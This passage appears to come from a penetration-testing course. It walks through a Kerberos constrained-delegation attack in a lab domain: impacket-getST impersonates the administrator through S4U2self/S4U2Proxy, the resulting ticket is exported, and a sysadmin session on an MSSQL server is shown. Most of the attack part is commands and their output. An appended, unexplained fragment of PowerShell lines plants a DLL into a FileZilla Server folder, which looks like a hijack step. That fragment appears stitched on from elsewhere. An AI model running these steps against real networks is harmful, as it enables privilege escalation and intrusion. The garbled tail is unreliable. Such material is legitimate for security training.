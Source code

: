 ```
kali@kali:~$ impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

> Listing 18 - Requesting service ticket and impersonating the administrator user

The output indicates that we successfully used the Kerberos ticket for _IISSvc_ to impersonate the administrator user by using the S4U2Self and S4U2Proxy extensions, and we've obtained a usable service ticket for the MSSQL service instance on _SQL01_.

We'll go ahead and export the new ticket to our _KRB5CCNAME_ variable and verify that it works by using **impacket-mssqlclient** to connect to _SQL01_ using Kerberos authentication.

```
kali@kali:~$ export KRB5CCNAME=administrator.ccache

kali@kali:~$ impacket-mssqlclient sql01.corp.com -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL> SELECT SYSTEM_USER;

--------------------------------

CORP\Administrator                                                                                              


SQL> SELECT IS_SRVROLEMEMBER('sysadmin');

-----------   

          1

SQL> SELECT CURRENT_USER;
                                                                                                                
-------------------------------- 

dbo                                                                                                      
```


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"